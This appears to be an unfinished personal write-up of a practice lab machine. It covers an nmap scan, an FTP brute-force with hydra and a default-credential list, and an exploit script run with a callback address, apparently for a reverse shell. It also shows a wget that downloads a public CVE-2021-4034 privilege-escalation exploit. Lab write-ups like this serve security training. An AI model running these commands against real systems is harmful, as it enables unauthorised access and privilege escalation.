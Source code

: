 #InProgress 
```
192.168.195.183
```

## Nmap
```
PORT   STATE  SERVICE  REASON         VERSION
20/tcp closed ftp-data reset ttl 61
21/tcp open   ftp      syn-ack ttl 61 vsftpd 3.0.3
80/tcp open   http     syn-ack ttl 61 Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: Host: 127.0.0.1; OS: Unix
```


## Nmap UDP


# Enumeration
## FTP
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 21 ftp://192.168.195.183
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930094809.png?raw=true)
```
passive
mget backup
```

## HTTP

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930091619.png?raw=true)

strings backup
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930095445.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930100544.png?raw=true)
```
python3 50911.py -s 192.168.45.239 443
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102513.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102534.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102436.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102630.png?raw=true)

# PrivEsc

## Manual



## Automated

### Peass

```
https://medium.com/@0xrave/exghost-proving-ground-practice-walkthrough-0b50df883a65
```
```
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/refs/heads/main/CVE-2021-4034.py -O exploit-kernel.py
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930104718.png?raw=true)

### Mimikatz

